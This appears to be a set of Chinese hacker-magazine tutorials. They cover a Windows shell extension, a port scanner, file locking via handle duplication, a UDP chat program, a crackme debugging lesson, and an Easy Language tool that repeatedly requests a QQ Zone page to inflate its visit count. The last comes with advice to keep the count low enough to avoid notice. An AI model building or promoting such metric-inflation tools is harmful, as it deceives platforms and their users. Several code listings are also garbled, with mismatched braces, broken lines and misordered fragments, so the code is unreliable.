pDataObj是一个IDataObject接口指针，通过它我们可以获取用户所选择操作的文件名。

hProgID是一个HKEY注册表键变量，可以用它获取我们的DLL的注册数据。

在这个简单的扩展例子中，我们将只使用到pDataObj参数。

要添加这个接口进COM对象，先打开SimpleShellExt.h文件，修改为下面的代码：

```
#include "shlobj.h"
#include "comdef.h"
class ATL_NO_VTABLE CSimpleShellExt : 
	public CComObjectRootEx,
	public CComCoClass,
	public IDispatchImpl,
	public IShellExtInit
{
BEGIN_COM_MAP(CSimpleShellExt)
	COM_INTERFACE_ENTRY(ISimpleShellExt)
	COM_INTERFACE_ENTRY(IDispatch)
	COM_INTERFACE_ENTRY(IShellExtInit)
END_COM_MAP()
```

COM_MAP是ATL实现QueryInterface()机制的宏，它包含的列表告知ATL其它外部程序用QueryInterface()能从我们的COM对象获取哪些接口。接着，在类声明里，加入Initialize()的函数原型。

另外我们需要一个变量来保存文件名：

```
protected:
TCHAR m_szFile[MAX_PATH];
public:
// IShellExtInit
STDMETHOD(Initialize)(LPCITEMIDLIST, LPDATAOBJECT, HKEY);
```

然后，在 SimpleShlExt.cpp 文件中，加入该函数方法的实现定义：

```
HRESULT CSimpleShlExt::Initialize ( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hProgID )
```

我们要做的是取得被右击选择的文件名，再把该文件名显示在弹出消息框中。可能会有多个文件同时被选择右击，你可以用pDataObj 接口指针获取所有的文件名，但现在为简单起见，我们只获取第一个文件名。文件名的存放格式与你拖放文件到带WS_EX_ACCEPTFILES风格的窗口时使用的文件名格式是一样的。这就是说我们可以使用同样的API来获取文件名：DragQueryFile()。

首先我们先获取包含在IDataObject中的数据句柄：

```
{
FORMATETC fmt = { CF_HDROP, NULL, DVASPECT_CONTENT, -1, TYMED_HGLOBAL };
STGMEDIUM stg = { TYMED_HGLOBAL };
HDROP hDrop;

// 在数据对象内查找 CF_HDROP 型数据。
if ( FAILED( pDataObj->GetData ( &fmt, &stg )))
{
// Nope! Return an "invalid argument" error back to Explorer.
return E_INVALIDARG;
}

// 获得指向实际数据的指针
hDrop = (HDROP) GlobalLock ( stg.hGlobal );

// 检查非NULL。
if ( NULL == hDrop )
{
return E_INVALIDARG;
}
}
```

请注意错误检查，特别是指针的检查。

由于我们的扩展运行在 Explorer 进程内，要是我们的代码崩溃了，Explorer也会随之崩溃。现在我们有了一个HDROP 句柄，我们就可以获取我们需要的文件名了：

```
// 有效性检查 - 保证最少有一个文件名。
UINT uNumFiles = DragQueryFile ( hDrop, 0xFFFFFFFF, NULL, 0 );
if ( 0 == uNumFiles )
{
GlobalUnlock ( stg.hGlobal );
ReleaseStgMedium ( &stg );
return E_INVALIDARG;
}
HRESULT hr = S_OK;

// 取得第一个文件名并把它保存在类成员m_szFile中。
if ( 0 == DragQueryFile ( hDrop, 0, m_szFile, MAX_PATH ))
{
hr = E_INVALIDARG;
}

GlobalUnlock ( stg.hGlobal );
ReleaseStgMedium ( &stg );
return hr;
```

要是我们返回 E_INVALIDARG，Explorer 将不会继续调用以后的扩展代码。要是返回 S_OK，Explorer 将再一次调用QueryInterface() 获取另一个我们下面就要添加的接口指针：IContextMenu。

下面开始按几个步骤进行我们的代码

### A：与上下文菜单交互的接口

一旦 Explorer 初始化了扩展，它就会接着调用 IContextMenu 的方法让我们添加菜单项，提供状态栏上的提示，并响应执行用户的选择。添加IContextMenu 接口到Shell扩展类似于上面IShellExtInit接口的添加，打开 SimpleShlExt.h，修改以下的代码：

```
class ATL_NO_VTABLE CSimpleShlExt :
public CComObjectRootEx,
public CComCoClass,
public IDispatchImpl,
public IShlExtInit,
public IContextMenu
{
BEGIN_COM_MAP(CSimpleShlExt)
COM_INTERFACE_ENTRY(ISimpleShlExt)
COM_INTERFACE_ENTRY(IDispatch)
COM_INTERFACE_ENTRY(IShellExtInit)
COM_INTERFACE_ENTRY(IContextMenu)
END_COM_MAP()
```

添加 IContextMenu 方法的函数原型：public:
// IContextMenu
STDMETHOD(GetCommandString)(UINT, UINT, UINT*, LPSTR, UINT);
STDMETHOD(InvokeCommand)(LPCMINVOKECOMMANDINFO);
STDMETHOD(QueryContextMenu)(HMENU, UINT, UINT, UINT, UINT);

修改上下文菜单 IContextMenu 有三个方法，第一个是QueryContextMenu()，它让我们可以修改上下文菜单，其原型为：

```
HRESULT IContextMenu::QueryContextMenu (
HMENU hmenu, UINT uMenuIndex, UINT uidFirstCmd,
UINT uidLastCmd, UINT uFlags );
```

hmenu 上下文菜单句柄。
uMenuIndex 是我们应该添加菜单项的起始位置。
uidFirstCmd 和 uidLastCmd 是我们可以使用的菜单命令ID值的范围。
uFlags 标识了Explorer 调用QueryContextMenu()的原因。

```
HRESULT CSimpleShlExt::QueryContextMenu (
HMENU hmenu,UINT uMenuIndex, UINT uidFirstCmd,
UINT uidLastCmd, UINT uFlags )
{
// 如果标志包含 CMF_DEFAULTONLY 我们不作任何事情.
if ( uFlags & CMF_DEFAULTONLY )
{
```

```
return MAKE_HRESULT ( SEVERITY_SUCCESS, FACILITY_NULL, 0 );
}

InsertMenu ( hmenu, uMenuIndex, MF_BYPOSITION, uidFirstCmd, _T("SimpleShlExt. Test Item") );

return MAKE_HRESULT ( SEVERITY_SUCCESS, FACILITY_NULL, 1 );
}
```

首先我们检查 uFlags，你可以在 MSDN中找到所有标志的解释，但对于上下文菜单扩展而言，只有一个值是重要的： CMF_DEFAULTONLY该标志告诉Shell命名空间扩展保留默认的菜单项，这时我们的Shell扩展就不应该加入任何定制的菜单项，这也是为什么此时我们要返回 0 的原因。如果该标志没有被设置，我们就可以修改菜单了(使用hmenu 句柄),并返回 1 告诉Shell我们添加了一个菜单项。

### B：在状态栏上显示提示帮助

下一个要被调用的IContextMenu 方法是 GetCommandString()。如果用户是在浏览器窗口中右击文本文件，或选中一个文本文件后单击文件菜单时，状态栏会显示提示帮助。我们的 GetCommandString() 函数将返回一个帮助字符串供浏览器显示。

GetCommandString() 的原型是：

```
HRESULT IContextMenu::GetCommandString (
UINT idCmd, UINT uFlags, UINT *pwReserved, LPSTR pszName, UINT cchMax );


```

idCmd 是一个以0为基数的计数器，标识了哪个菜单项被选择。
因为我们只有一个菜单项，所以idCmd 总是0. 但如果我们添加了3个菜单项,idCmd 可能是 0，1，或 2。
uFlags 是另一组标志。
PwReserved 可以被忽略。
pszName 指向一个由Shell拥有的缓冲区，我们将把帮助字符串拷贝进该缓冲区。
cchMax 是该缓冲区的大小。
返回值是S_OK 或 E_FAIL。
GetCommandString() 也可以被调用以获取菜单项的动作(”verb”)。
verb 是个语言无关性字符串，它标识一个可以加于文
### 件对象的操作

ShellExecute()的文档中有详细的解释，而有关verb的内容足以再写一篇文章，简单的解释是：verb 可以直接列在注册表中(如“open”和“print”等字符串)，也可以由上下文菜单扩展创建。这样就可以通过调用ShellExecute()执行实现在Shell扩展中的代码。如果 Explorer 要求一个帮助字符串，我们就提供给它；如果 Explorer 要求一个verb，我们就忽略它；这就是 uFlags 参数的作用。如果uFlags 设置了 GCS_HELPTEXT 位，则 Explorer 是在要求帮助字符串，而且如果 GCS_UNICODE 被设置，我们就必须返回一个Unicode字符串。

我们的 GetCommandString()如下：

```cpp
#include "atlconv.h"
// 为使用 ATL 字符串转换宏而包含的头文件
HRESULT CSimpleShlExt::GetCommandString(
    UINT idCmd, UINT uFlags, UINT* pwReserved, LPSTR pszName, UINT cchMax )
{
    USES_CONVERSION;
    //检查 idCmd, 它必须是0, 因为我们仅有一个添加的菜单项.
    if ( 0 != idCmd )
        return E_INVALIDARG;

    // 如果 Explorer 要求帮助字符串, 就将它拷贝到提供的缓冲区中
    if ( uFlags & GCS_HELPTEXT )
    {
        LPCTSTR szText = _T("This is the simple shell extension's help");
        if ( uFlags & GCS_UNICODE )
        {
            // 我们需要将 pszName 转化为一个 Unicode 字符串, 接着使用Unicode字符串拷贝API
            lstrcpynW( (LPWSTR) pszName, T2CW(szText), cchMax );
        }
        else
        {
            // 使用 ANSI 字符串拷贝API 来返回帮助字符串.
            lstrcpynA( pszName, T2CA(szText), cchMax );
        }
    }

    return S_OK;
}
return E_INVALIDARG;
```

这里没有什么特别的代码；代码中使用了硬编码的字符串并把它转换为相应的字符集。笔者在上面的代码中使用了T2CW 和 T2CA 将 TCHAR 字符串分别转化为Unicode和 ANSI字符串。函数开头处的USES_CONVERSION 宏其实声明了一个将被转化宏使用的局部变量。要注意的一个问题是：lstrcpyn() 保证了目标字符串将以null为结束符。这与C运行时(CRT)函数strncpy()不同，当要拷贝的源字符串的长度大于或等于cchMax 时strncpy()不会添加一个 null 结束符。建议使用lstrcpyn()，这样你就不必在每一个strncpy()后加入检查保证字符串以null为结束符的代码。

### C：执行用户的选择

IContextMenu 接口的最后一个方法是 InvokeCommand()。当用户点击我们添加的菜单项时该方法将被调用。其函数原型是：

```cpp
HRESULT IContextMenu::InvokeCommand ( LPCMINVOKECOMMANDINFO pCmdInfo );
```

CMINVOKECOMMANDINFO 结构带有大量的信息，但我们只关心 lpVerb 和 hwnd 这两个成员。

lpVerb参数有两个作用 – 它或是被激发的verb(动作)名，或是被点击的菜单项的索引值。

hwnd 是用户激活我们的菜单扩展时所在的浏览器窗口的句柄。

因为我们只有一个扩展的菜单项，我们只要检查lpVerb 参数，如果其值为0，我们可以认定我们的菜单项被点击了。

我能想到的最简单的代码就是弹出一个信息框，这里的代码也就做了这么多。信息框显示所选择的文件的文件名以证实代码正确地工作。

```cpp
HRESULT CSimpleShlExt::InvokeCommand ( LPCMINVOKECOMMANDINFO pCmdInfo )
{
    // 如果lpVerb 实际指向一个字符串, 忽略此次调用并退出.
    if ( 0 != HIWORD( pCmdInfo->lpVerb ) )
        return E_INVALIDARG;

    // 点击的命令索引 - 在这里, 唯一合法的索引为0.
    switch ( LOWORD( pCmdInfo->lpVerb ) )
    {
    case 0:
    {
        TCHAR szMsg [MAX_PATH + 32];
        wsprintf ( szMsg, _T("The se-
lected file was:\n\n%s"), m_szFile );
        MessageBox ( pCmdInfo->hwnd,
            szMsg, _T("SimpleShlExt"),
            MB_ICONINFORMATION
        );
        return S_OK;
    }
    break;
    default:
        return E_INVALIDARG;
    break;
    }
}
```

我们不必写任何代码就可以完成注册操作，如果你看一下Fileview页的文件列表，你会看到SimpleShlExt.rgs。

该文本文件将被ATL分析，并指导ATL在该COM服务器注册时添加附加的注册键，而注销时又该删除哪些键，以下是所指定添加的注册表项：

```
HKCR
{
    NoRemove txtfile
    {
        NoRemove ShellEx
        {
            NoRemove ContextMenuHandlers
            {
                ForceRemove SimpleShlExt = s
                '{5E2121EE-0300-11D4-8D3B-444553540000}'
            }
        }
    }
}
```

### D：注册Shell扩展

现在我们已经实现了所有需要的COM接口，可是我们怎样才能让explorer使用我们的扩展呢？ATL自动生成注册COM DLL服务器的代码，但这只是让其它程序可以使用我们的DLL。为了告诉explorer使用我们的扩展，我们需要在文本文件类型的注册表键下注册扩展：
HKEY_CLASSES_ROOT\txtfile

在这个键下，有个名为ShellEx的键保存了一个与文本文件关联的Shell扩展的列表。在ShellEx键下，ContextMenuHandlers键保存了上下文菜单扩展的列表。每个扩展都在ContextMenuHandlers下创建了一个子键并将其默认值设为扩展COM的GUID。所以，对于我们这个简单的扩展，我们将创建下键：

```
HKEY_CLASSES_ROOT\txtfile\ShellEx\Context-
MenuHandlers\SimpleShlExt


```

并将其默认值设为我们的GUID: "{5E2121EE-0300-11D4-8D3B-444553540000}"。

每一行代表一个注册表键，"HKCR"是HKEY_CLASSES_ROOT的缩写，NoRemove关键字表示当该COM服务器注销时该键不用被删除。最后一行有些复杂，ForceRemove关键字表示如果该键已存在，那么在新键添加之前该键先应被删除。这行脚本的余下部分指定一个字符串，它将被存为SimpleShlExt键的默认值。
### E：调试Shell扩展

打开你的工程设置，在Debug页”Executable for debug session”编辑框中输入浏览器程序的全路径，如："C:\windows\explorer.exe"。只要你在在这个窗口内完成你所有的工作，当你关闭该窗口时扩展同时会被卸出内存，这样就不会妨碍我们重建DLL了。如图1所示我们的执行结果。

## 打造自己的端口工具

沧海浮萍

还是vc++下的编程，这几篇文章大都介绍vc++编程的工具呈现，有一些东西属于代码性的，没有什么原理可将，只能是告诉读者这样做，这样写。其实作为黑客技术爱好者，编程可以说是基本功，如果不会编程，那就只能是“工具黑”
详细的代码组织流程，请读者自行参考附带的源代码。工具上实现了以下几个功能：ping主机功能，端口扫描功能。如图1所示。

首先我们先介绍ping功能的实现，这里需要大家了解一个类：CPing。这个类就是用来实现ping功能的类，这个类中定义了一些成员函数以及变量：

```cpp
void SetConfigure(char * host,int size=32,int Num=4);
void DecodeIPOptions(char *buf, int bytes);
void Cleanup();
void Ping(int timeout =1000);
void DecodeICMPHeader(char *buf, int bytes, SOCKADDR_IN* from);
USHORT checksum(USHORT *buffer, int size);
void FillICMPData(char *icmp_data, int datasize);
```

变量：char msg[4096];

我们只需要使用到的是SetConfigure与Ping这两个函数，char msg[4096];这个变量。SetConfigure用于设置ping数据包的模式，Ping用于发包。其中的参数host表示要ping的ip地址，其他两个参数保持默认即可。我们使用char msg[4096]这个变量来获得ping返回的结果，ping功能实现的代码如下：

```cpp
CPing ping;
ping.SetConfigure(m_ip.GetBuffer(0),32,4);
ping.Ping(1000);
```

客”，一旦到了底层上的原理性东西就什么也不知道了，所以还是建议大家去学一种编程，而且最好是vc。

由于本篇文章还是编程实现工具，所以还是只介绍关键的函数以及核心代码，对于其他

```cpp
CString str;
str.Format("%s",ping.msg);
m_show+=str;
```

下面来完成端口扫描。端口扫描的实现我们采用多线程的机制，这样可以提高扫描的速度。扫描的方式我们采用连接测试，如果连接成功，表示端口开放；如果连接失败，表示端口关闭。这里涉及到一个函数select需要大家了解：

```cpp
int select(
    int nfds,
    fd_set FAR *readfds,
    fd_set FAR *writefds,
    fd_set FAR *exceptfds,
    const struct timeval FAR *timeout
);
```

这个函数用于确定一个或者多个socket的状态。扫描部分的代码如下：

```cpp
dlg->SetDlgItemInt(IDC_SHOWPORT,nPort,TRUE);
FD_SET mask;
u_long val-
ue;
SOCKET
sockfd;
TIMEVAL tim-
eout;
SOCKADDR_IN addr;
dlg->SetDlgItemInt(IDC_SHOWPORT,nPort,TRUE);
sockfd = socket(AF_INET, SOCK_STREAM, 0);
value=1;
ioctlsocket(sockfd,FIONBIO,&value);
addr.sin_family = AF_INET;
addr.sin_port = htons(nPort);
addr.sin_addr.s_addr = inet_addr(ip);
connect(sockfd,(struct sockaddr *)&addr, sizeof(addr));
timeout.tv_sec=2;
timeout.tv_usec=0;
FD_ZERO(&mask);
FD_SET(sockfd,&mask);
value=select(sockfd+1,NULL,&mask,NULL,&t
```

```cpp
imeout);
if(value && value!=SOCKET_ERROR)
{
    char result[50];
    wsprintf(result, "[Found] %-14s=> %-5d\r\n", ip, nPort);
    dlg->m_show += result;
    dlg->SetDlgItemText(IDC_RICHEDIT_SHOW, dlg->m_show);
}
```

```cpp
}
closesocket(sockfd);//注意，一定不要忘记关闭socket
```

这个扫描工具的实现非常假单，为了实现其他程序的可移植性，这里面的类以及函数已经基本实现了完整功能，所以读者可以将部分代码移植到自己的程序中实现扩展。这里笔者使用的双线程，为了得到更高的扫描速度读者可以尝试使用更高的线程数量来实现并发扫描。

（文章中涉及的源代码本期光盘已收录）

## 基于句柄复制的文件保护技术

沧海浮萍

句柄复制技术，相信很多人对这个概念还会比较陌生，究竟什么是句柄复制呢？我们可以简单的理解为“将某个文件的句柄复制到一个进程里”，这里我们可以将一个没有运行或打开的文件为它复制一个句柄，从而实现文件被占用无法删除的目的。当然我们也可以这样思考，“将已经打开的文件或程序的句柄删除掉”，这样就实现了文件可以删除，达到了解锁的目的。现实中很多病毒或者是杀毒软件使用这样的技术来达到保护病毒自身或者删除恶意文件的作用。本篇文章中，笔者将介绍怎么通过编程的的方法来实现这些技术。

```cpp
BOOL OpenProcessToken(
  HANDLE ProcessHandle,
  DWORD DesiredAccess,
  PHANDLE TokenHandle
);
```

函数描述：获得进程访问令牌的句柄

由于本文会涉及到一些比较高级的C++编程，所以考虑大多数读者的编程，笔者这里只进行关键代码的介绍与实现，更加详细的代码请读者参考附带的源代码。这个软件我们采用C++控制台模式，首先先介绍一下关于main(int argc, char *argv[])这个函数的一些问题。main()函数是控制台程序的主函数入口，由于控制台程序可以接受参数，所以这里我们介绍一下它的参数含义。argc表示传递给控制台程序的参数的个数，*argv[]是指向参数的字符串指针，或者是指向字符串参数的指针的指针。这个字符串必须以0结束的字符串，第一个参数（argv[0]）表示程序的名称，一般情况下我们不关心，从argv[1]开始时真正的参数。由于涉及到进程的问题，所以我们对一些重要的函数进行一下简单介绍。

```cpp
BOOL LookupPrivilegeValue(
  LPCTSTR lpSystemName,
  LPCTSTR lpName,
  PLUID lpLuid
);
```

函数描述：该函数将特权名字转换成一个64位的等价值叫做LUID。

```cpp
EnablePrivilege(
  LPCTSTR lpszPrivilegeName,
  BOOL bEnable);
函数描述：提升进程权限
```

```cpp
BOOL AdjustTokenPrivileges(
  HANDLE TokenHandle,
  BOOL DisableAllPrivileges,
  PTOKEN_PRIVILEGES NewState,
  DWORD BufferLength,
  PTOKEN_PRIVILEGES PreviousState,
  PDWORD ReturnLength
);
```

函数描述：启用或禁用特权一个有TOKEN_ADJUST_PRIVILEGES访问的访问令牌。

```cpp
NtQuerySystemInformation(ZwQuerySystemInformation);
```

函数描述：枚举进程信息

```cpp
GetCurrentProcessId();
```

函数描述： 获取当前进程一个唯一的标识符

```cpp
TerminateThread( HANDLE hThread, DWORD dwExitCode);
```

函数描述：在线程外终止一个线程，用于强制终止线程。

```cpp
HANDLE WINAPI CreateToolhelp32Snapshot(
  DWORD dwFlags,
  DWORD th32ProcessID
);
```

函数描述：为指定的进程、进程使用的堆[HEAP]、模块[MODULE]、线程[THREAD]）建立一个快照[snapshot]。

```cpp
Process32Next(
  __in HANDLE hSnapshot,
  __out LPPROCESSENTRY32 lppe
);
```

函数描述：是一个进程获取函数，当我们利用函数CreateToolhelp32Snapshot()获得当前运行进程的快照后，我们可以利用Process32Next函数来获得下一个进程的句柄。

```cpp
DuplicateHandle(
  __in HANDLE hSourceProcessHandle,
  __in HANDLE hSourceHandle,
  __in HANDLE hTargetProcessHandle,
  __out LPHANDLE lpTargetHandle,
  __in DWORD dwDesiredAccess,
  __in BOOL bInheritHandle,
  __in DWORD dwOptions
);


```

在指出一个现有系统对象当前句柄的情况下，为那个对象创建一个新句柄。当前句柄可能位于一个不同的进程。

主要的函数我们介绍完了，我们核心代码的实现就是基于上面的函数来完成的，说得简单一些就是函数的拼接，由于大部分是代码的介绍，所以建议读者自行参考源代码，文章中就不详细介绍了。下面主要介绍一下编译完毕后程序的用法，用法的实例在源程序中已经给出了，程序运行后也可以看到，如图1所示。这里用第四个例子的介绍一下文件的保护。对于一个没有在使用的文件，我们可以采用我们刚才编译的程序将其保护起来，具体的操作方式如下。打开cmd后来到我们程序所在的目录，输入：程序名 /参数 pid 被保护文件名，这里我在c盘下放置了一个名字为“1.txt”的文件来做实验。我把这个句柄复制到我当前正在运行的一个IE进程里面，进程的PID通过任务管理器可以看到是2268，所以这里输入的参数就是“clshp /p 2268 c:\1.txt”，输入后按回车，如果保护成功的话会有提示“复制成功”，如图2所示。下面我们来打开来这个文件看一下有什么反应，如图3所示，它会提示“有一个程序正在使用”，当然我们也没法删除这个文件。
图1
图2
图3

这个程序中实现了保护文件和解除使用的函数方法，这些方法都是在病毒文件中使用或者是杀软中使用，大家可以将这些函数一直到自己的程序中另行发挥。

（文章中涉及的源代码本期光盘已收录）

## 实战UDP通信程序设计

在做各类黑客程序，包括木马、扫描工具以及我们经常使用的各类渗透测试工具的过程中，无一不涉及到网络编程。熟悉网络编程不仅对于我们进行程序开发十分重要，而且可以让我们更加熟悉这些黑客类工具的原理，有利于我们从本质上了解这些原理。本篇文章中，笔者将为大家介绍网络通信中的UDP通信的编程过程以及方法，实现一款点对点聊天工具。

开发平台VC6.0，采用win32控制台编程。首先我们编写一个名为CComm的类来将用到的网络函数放到一起。在进行各种操作之前，我们首先要包含网络通信的头文件winsock.h以及lib静态库文件wsock32.lib。lib文件的包含代码为：#pragma comment(lib, "wsock32.lib")。在头文件中我们声明3个函数：ListenThread(void *data)，用于创建监听数据的线程；SendMsg(char *Msg, int Len, char *host, short port)，用于发送数据的函数；Listen(int PortNum)，用于监听端口。同时创建一个SOCKET的对象ListenSocket用于监听数据是否到来。头文件的详细代码读者可以查看附带的头文件。

下面开始实现这个类。对于类来说应该首先完成构造函数以及析构函数，构造函数用于完成数据的初始化，析构函数用于实现资源的释放。我们首先将ListenSocket设置为INVALID_SOCKET的初始化据，然后初始化网络通信，代码如下：

```cpp
WORD VersionRequested = MAKEWORD(1,1);
WSADATA wsaData;

WSAStartup(VersionRequested, &wsaData);
// 启动winsock服务
if ( wsaData.wVersion != VersionRequested )
{
    printf("Wrong version or WinSock not loaded\n");
}
```

其中MAKEWORD用于制定网络通信的版本，WSAStartup用于初始化网络通信。构造函数完成后我们就需要实现析构函数，这里析构函数的主要作用就是关闭网络连接，同时释放所使用的网络资源，代码如下：

```cpp
if ( ListenSocket != INVALID_SOCKET )
    closesocket( ListenSocket );

#ifdef _WIN32
    WSACleanup();
#endif
```

下面开始数据发送、数据监听与监听线程的实现。数据发送的关键代码如下：

```cpp
sockaddr_in dest; // 发送目标地址
dest.sin_family = PF_INET;
dest.sin_addr = *( (in_addr *) (hostdata->h_addr_list[0]) );
dest.sin_port = htons( port );
printf("信息已经被发送到主机 %s 端口为 %d\n", inet_ntoa(dest.sin_addr), ntohs(dest.sin_port));

//数据发送
Sent = sendto(ListenSocket, Msg, Len, 0, (sockaddr *)&dest, sizeof(sockaddr_in));

if ( Sent != Len )
{
    printf("错误发送UDP信息\n");
    fflush(0);
    return false;
}
```

数据监听函数的关键代码如下：

```cpp
char buf[4096];
CComm *Comm = ( (CComm *) data);
int len = sizeof(Comm->client);
while(1) // 一直循环
{
    //接收数据
    int result = recvfrom( Comm->listenSocket, buf, sizeof(buf)-1, 0, (sockaddr
}acomm->client, (socklen_t *)&clilen);
if (result > 0) {
buf[result] = 0;
printf("收到来自主机: %s
port: %d\n", inet_ntoa(comm->client.sin_addr), ntohs(comm->client.sin_port));
printf(">> %s", buf);
fflush(0);
}
}
```

监听线程的代码读者自行参考源代码，下面我们就需要在main函数中间这些函数代码组织起来使用，来实现数据通信。首先我们确定一下程序监听使用的端口号以及发送数据使用的端口号，这里就是用3001和3000两个端口，由于笔者是在本地测试，所以IP地址设置为127.0.0.1，代码组织如下：

```
listeningport=3001;
//绑定发送端口
destport=3000;
desthost = "127.0.0.1"; //绑定目标地址
Comm::myComm;
if (!myComm.Listen(listeningport))//绑定地址
```

```
printf("端口%d绑定失败\n", listeningport);
return 0;
}
printf("聊天程序成功建立，端口为3000: <Ctrl+C> 退出\n");
while( fgets(buffer, sizeof(buffer), stdin) ){ //获得输入数据
myComm.SendMsg( buffer, strLen(buffer), desthost, destport ); //发送数据到目标地址
}


```

这是其中的一个通信端，另一个通信端只需要将两个端口号互换即可。这样一个简单的UDP通信程序就完成了，下面来测试一下，我们这里不区分客户端与服务器端，是对等的通信模式，测试结果如图1所示。
（文章中涉及的软件及源代码本期光盘已收录）

# 易语言打造不用登号的快速刷日志访问量工具

雷方文

翻阅以前的《黑客X档案》的时候看到一篇易语言编写刷QQ空间日志访问量的工具的文章。觉得写的非常好，但是好像操作起来有点小复杂，还得登号什么的。做为菜菜，我们要寻找的不只是精湛的技术还有便捷的技术，于是到网上查找了一些实例，想了许久，也用易语言写好了一个源码，按奈不住激动滴心情就来给大家共享来了。

## 一、工具使用

我们先来看看这个源码编译出来的工具好不好用吧（为了大家使用方便，编译好的工具我会打包给X友们）。双击打开工具，会看到如图1的界面。我在空间里随便找到了一篇日志做为示范如图2。我们可以“不小心”地看到现在的访问量是47。在工具上输入QQ，点确定，文本框上就会显示出空间上已有的日志了，选择要刷的日志，最后点“开刷”。工具就可以工作了，现在你爱干嘛就干嘛去，等你觉得可以了点下“停止”，再去空间就可以看到日志访问量飘飘地就上去了，如图3。
这个工具1s基本就会刷1个访问量，非常快。所以大家刷的时候注意别刷太高了，不然一看就知道是刷的了。

## 二、工具原理

源码我也会给大家的，因为是易语言的，所以菜菜们查看源码之前得先去载个易语言（当然，原来机子上有的就不用了）。我这里把部分源码写在文章上如图4、图5。看完这部分的源码菜菜们应该都能理解工具的原理了吧。（小菜吼道：废话，都是中文的）它就是不停的访问我们的日志，以增加大家的日志访问量的。

```
子程序名 返回值类型 公开 备注
_启动子程序 整数型
变量名 类型 静态 数组 备注
局部_文本型 文本型
局部_文本型1 文本型
局部_临时文本型 文本型
局部_临时文本型1 文本型
如果真（文本_取中间文本（局部_返回文本，“<span>  访问量：</span>”，“</span>”）= “”）
    返回（“”）
如果真（文本_取出中间文本（全局_空间日志_xpath，“<span>  访问量：</span>”，“</span>”）≠ “”）
    局部_文本型 = 文本_取出中间文本（全局_空间日志_xpath，“<span>  访问量：</span>”，“</span>”）
    局部_文本型 = 到文本（到数值（局部_文本型）+1）
    局部_文本型1 = 文本_取出中间文本（全局_空间日志_xpath，“<span>  访问量：</span>”，“</span>”）
    局部_临时文本型 = 文本_替换（全局_空间日志_xpath，“<span>  访问量：</span>”+局部_文本型1+“</span>”，“<span>  访问量：</span>”+局部_文本型+“</span>”）
    局部_临时文本型1 = 文本_替换（局部_临时文本型，“<span>  访问量：</span>”+局部_文本型+“</span>”，“<span>  访问量：</span>”+局部_文本型1+“</span>”）
    返回（局部_临时文本型1）
    返回（局部_临时文本型）
    编辑框1.内容 = 到文本（到数值（编辑框1.内容）+1）
    标签1.标题 = “已刷：” + 到文本（到数值（编辑框1.内容））
.版本 2
.支持库 internet
.支持库 spec
.子程序 _时钟1_周期事件
.局部变量 返回信息, 文本型
.局部变量 访问量, 文本型
.局部变量 提交地址, 文本型
提交地址 = “http://user.qzone.qq.com/” + 编辑框QQ.内容 + “/infocenter”
返回信息 = 到文本 (网页_访问 (提交地址, , , , , , , , 1, ))
访问量 = 文本_取出中间文本 (返回信息, “访问量：</span>”, “</span>”)
标签访问量.标题 = 访问量
.如果真 (到数值 (访问量) ≠ 到数值 (编辑框1.内容))
    编辑框1.内容 = 访问量
    标签1.标题 = “已刷：” + 到文本 (到数值 (编辑框1.内容))
.如果真结束


```
```
子程序名 返回值类型 公开 备注
_指定内容 文本型 取出指定的内容
参数名 类型 参考 可空 数组 备注
完整内容 文本型
左边文本 文本型
右边文本 文本型
变量名 类型 静态 数组 备注
临时位置 整数型
总长度 整数型
临时文本 文本型
总长度 = 取文本长度 (完整内容)
临时位置 = 寻找文本 (完整内容, 左边文本, , 假) + 取文本长度 (左边文本)
临时文本 = 取文本中间 (完整内容, 临时位置, 总长度)
总长度 = 取文本长度 (临时文本)
临时位置 = 寻找文本 (临时文本, 右边文本, , 假) - 1
临时文本 = 取文本中间 (临时文本, 1, 临时位置)


```
好了文章结束，祝X友们越玩越快乐，技术越来越好！

# 破解难题（一）初试调试

rejector

12月这么快就过去了，2011年到了，又是1月，对rejector老师来说又是讨厌的期末考试。好不容易抽空睡一觉，就看到白糖发短信过来“rejector老师，上课了！”rejector突然想起这个月的课还没上呢，只好无奈地穿好衣服。

来到教室，rejector还是很郁闷“上个月带大家认识了静态反汇编，这个月就再讲进一步让大家认识什么叫做动态调试。”

我们运行本课的教学程序CrackMe，我们可以看到它需要被输入“user”和“serial”（如图1），随意输入后按“OK”（如图2），它会弹出一个对话框提示我们“串错误，破解失败”。白糖：老师！有字符串了！rejector：到这里大家肯定会想到上节课我们讲过的字符串破解，那我们就先来回顾一下上节课的内容吧！
图1
图2

运行OD，点“开始”--“打开”来加载我们的CrackMe，然后再点击菜单栏的“插件”--“Ultra String Reference”--“1.Find ASCII”（如图3），接着OD就会弹出字符串窗口（如图4）。吉利：诶？怎么没有“串错误，破解失败”字符串呢？白糖：应该是在Unicode里边吧！rejector：那我们就看看到底是不是在Unicode里边！

我们继续点击菜单栏的“插件”--“Ultra String Reference”--“1.Find Unicode”（如图5），白糖：为什么还是没有呢？rejector：同学们不要急，这种情况是经常会发生的，程序员们在设计程序的时候，为了防止他们设计的程序被破解，就刻意地把一些字符串做了加密，每当这个字符串要被使用到的时候，在程序运行阶段随时调用解密函数对它进行解密。白糖：老师，那我们要怎么办呢？rejector：道高一尺，魔高一丈，虽然字符串被加密了，那我们还有更高级的方法来对付他们！
图3
图4
图5

现在就进入我们今天的主题。

动态调试技术在软件逆向工程领域是一个很热门的概念，它是与静态分析技术相对而言的。静态分析技术是指破解者利用反汇编工具将二进制的可执行文件翻译成汇编代码，通过对代码的分析来破解软件；而动态调试则是指破解者利用调试器跟踪软件的运行，寻求破解的途径。

好的，我们回到刚开始，用OD加载我们的CrackMe，接下来，注意喽，我们按F9让程序在OD中运行起来（如图6），我们可以看到，OD左上角的状态已经变成“运行”了，我们刚才试过，当我们输入一个错误的User和Serial时程序会弹出一个对话框来提示我们“串错误，破解失败”，其实这个时候，程序是调用了一个API函数来弹出一个窗口，完成这个过程的，那么它到底会用到哪些API函数呢？
在这里我们列举一下可能用到的API函数

- MessageBox 显示一信息对话框
- MessageBoxEx 显示一信息对话框
- MessageBoxIndirect 显示一定制信息对话框

其实在我们的系统内部，每个跟字符的处理有关的API函数都有A和W两个版本的，像MessageBox函数一样，真正被调用到的函数其实是MessageBoxA或者MessageBoxW。吉利：那他们有什么区别呢？rejector：A版的API函数使用多字节字符，W版API使用宽字节字符，宽字节字符和多字节字符的区别就在于宽字节字符所占用的字节数目是一样的，它不管是中文字符还是英文字符都使用两个字节来储存，而多字节字符占用的字节数目不同，它使用两个字节来储存一个中文字符，使用一个字节来储存一个英文字符，这就是为什么我们上课时在查找字符串时有两个选项的原因了。

